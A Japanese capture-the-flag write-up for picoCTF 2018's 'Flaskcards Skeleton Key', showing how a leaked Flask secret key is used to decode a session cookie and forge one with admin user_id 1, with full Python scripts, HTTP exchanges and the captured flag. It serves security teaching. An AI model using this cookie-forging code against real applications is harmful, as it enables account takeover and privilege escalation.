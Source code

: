 # Flaskcards Skeleton Key

## Solve
```
Nice! You found out they were sending the Secret_key: 73e1f2c96e364f0cc3371c31927ed156. 
Now, can you find a way to log in as admin? 
http://2018shell.picoctf.com:12261 (link).
```

## Hint
```
What can you do with a flask Secret_Key?
The database still reverts every 2 hours
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83868634-366f7b80-a766-11ea-9d24-77de56fd2239.png)

問題のページに移動するとloginが出来る`Flask`が関係してそうなページが表示されました。

今回は問題文に`Secret_key: 73e1f2c96e364f0cc3371c31927ed156`とあるのでこれを使うと思われます。

そして`flask`のフレームワークで動いていることも考えられます。

まずはアカウントを作ってloginをしてみます。

![2](https://user-images.githubusercontent.com/47602064/83874469-763b6080-a770-11ea-9c52-9d736f03b24f.png)

loginは出来ました。

ここでloginする時の通信を見てみると以下のようになっていました。

```http
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://2018shell.picoctf.com:12261/index
Vary: Cookie
Set-Cookie: session=.eJwlz01qAzEMQOG7eJ2FJEu2nMsEWT-0FFqYSVald89AD_DBe7_tUUeeH-3-PF55a4_PaPfGlWVJOKMEMwfuxGFLREF8TDaaGJlsgHvpSIfqYqy-e6RSgHZF3KK-YkyACyIzWnV1hmXiC7MrgIqYzG2uFrTSuLMMlHZrfh71eP585ffV40lDKyo2Vvdi4JhkTimLnRSozKsWXu515vE_QbP9vQHyWj98.Eb45Ug.5fyQ-BypokTjBFbhs8mhvWPZqNc; HttpOnly; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/index">/index</a>.  If not click the link.
```

今回は`cookie`に`session`が付いていました。

今回は先頭に`.`があるので`zlib`が使用されていることがわかります。

なので試しにこれを解凍してデコードし、中身を見てみます。

```python
#!/usr/bin/python

import base64, zlib

session_cookie = '.eJwlz01qAzEMQOG7eJ2FJEu2nMsEWT-0FFqYSVald89AD_DBe7_tUUeeH-3-PF55a4_PaPfGlWVJOKMEMwfuxGFLREF8TDaaGJlsgHvpSIfqYqy-e6RSgHZF3KK-YkyACyIzWnV1hmXiC7MrgIqYzG2uFrTSuLMMlHZrfh71eP585ffV40lDKyo2Vvdi4JhkTimLnRSozKsWXu515vE_QbP9vQHyWj98.Eb45Rw.2E7fsQB1cpukW7JcF1g6EtrOSN0'
data = session_cookie.split('.')[1]
data += b'=' * ((4 - len(data) % 4))
data = base64.urlsafe_b64decode(data)
data = zlib.decompress(data)
print(data)
```

```
$ python solve1.py 
{"_fresh":true,"_id":"4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615","csrf_token":"ce268fdfdb1f3cf404d72ac2e594c2802facff91","user_id":"27"}
```

これを綺麗に並べると以下のようになります。

```
{
   "_fresh":true,
   "_id":"4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615",
   "csrf_token":"ce268fdfdb1f3cf404d72ac2e594c2802facff91",
   "user_id":"27"
}
```

これを見る限り`JSON`形式で入っていることがわかります。

そして`user_id`というのがあることもわかります。

このIDが`admin`になれば、良さそうです。

おそらく`0`か`1`が`admin`の`user_id`と推測されます。

　最終的には`1`が`admin`でした。

<br>

今回は`FLASK`が使われていることがわかります。

なのでそれを利用して`session`を`admin`である`1`を含むように生成させます。

問題文にあった`Secret_key`を使います。

```python
#!/usr/bin/env python3

import zlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import base64_decode, URLSafeTimedSerializer

secret_key = '73e1f2c96e364f0cc3371c31927ed156'
user_cookie = '.eJwlz01qAzEMQOG7eJ2FJEu2nMsEWT-0FFqYSVald89AD_DBe7_tUUeeH-3-PF55a4_PaPfGlWVJOKMEMwfuxGFLREF8TDaaGJlsgHvpSIfqYqy-e6RSgHZF3KK-YkyACyIzWnV1hmXiC7MrgIqYzG2uFrTSuLMMlHZrfh71eP585ffV40lDKyo2Vvdi4JhkTimLnRSozKsWXu515vE_QbP9vQHyWj98.Eb45Rw.2E7fsQB1cpukW7JcF1g6EtrOSN0'

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    def get_signing_serializer(self, secret_key):
        signer_kwargs = {
            'key_derivation': self.key_derivation,
            'digest_method': self.digest_method
        }
        return URLSafeTimedSerializer(
            secret_key,
            salt=self.salt,
            serializer=self.serializer,
            signer_kwargs=signer_kwargs
        )

class FlaskSessionCookieManager:
    @classmethod
    def decode(cls, secret_key, cookie):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.loads(cookie)

    @classmethod
    def encode(cls, secret_key, session):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.dumps(session)

# main
user_session = FlaskSessionCookieManager.decode(secret_key, user_cookie)
print(user_session)
admin_session = user_session
admin_session['user_id'] = '1'
print(admin_session)
print()
admin_cookie = FlaskSessionCookieManager.encode(secret_key, admin_session)
print(admin_cookie)
```




```
$ python3 solve2.py 
{'_fresh': True, '_id': '4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615', 'csrf_token': 'ce268fdfdb1f3cf404d72ac2e594c2802facff91', 'user_id': '27'}
{'_fresh': True, '_id': '4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615', 'csrf_token': 'ce268fdfdb1f3cf404d72ac2e594c2802facff91', 'user_id': '1'}

.eJwlz12qAjEMQOG99NmHpE3a1M0MaX5QBIUZfbrcvTvgAj44569sucdxK9f3_olL2e5eroUyUqPi8GSM6LgCu05mAbY-SOtAjyAFXFN6GGRjJbHVPKQ6SBPExWLT-wA4IRKhZhMjmMo2MZoACLPyWGqiXmcoNeKOXC7Fjj239-sRz7PHonZJT1-YzZKAfFS1GjzJqkBNtcyJp_scsf8msPx_AbMMP0Q.Eb53rg.2wzs8V7hkmPev8P4TNy5VXUu4YM
```

これで上手く`admin`の`user_id:1`を含む`session`が生成できました。

なのでこれを`/admin`に送ってアクセスしてみます。

```http
GET /admin HTTP/1.1
Host: 2018shell.picoctf.com:12261

Referer: http://2018shell.picoctf.com:12261/index
Cookie: _ga=GA1.2.1326079095.1591175644; session=.eJwlz12qAjEMQOG99NmHpE3a1M0MaX5QBIUZfbrcvTvgAj44569sucdxK9f3_olL2e5eroUyUqPi8GSM6LgCu05mAbY-SOtAjyAFXFN6GGRjJbHVPKQ6SBPExWLT-wA4IRKhZhMjmMo2MZoACLPyWGqiXmcoNeKOXC7Fjj239-sRz7PHonZJT1-YzZKAfFS1GjzJqkBNtcyJp_scsf8msPx_AbMMP0Q.Eb53rg.2wzs8V7hkmPev8P4TNy5VXUu4YM

```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 12228
Vary: Cookie

<html>
<!DOCTYPE html>
			
<h1 class="page-header text-capitalize">Welcome admin</h1>

		<p> Your flag is: picoCTF{1_id_to_rule_them_all_8470d1c9} </p>
	
```

すると上手く`admin`でアクセス出来て、flagが表示されました。

![3](https://user-images.githubusercontent.com/47602064/83969538-8a679500-a90b-11ea-9d72-adaec0e33369.png)


<br><br>

## FLAG: picoCTF{1_id_to_rule_them_all_8470d1c9} 
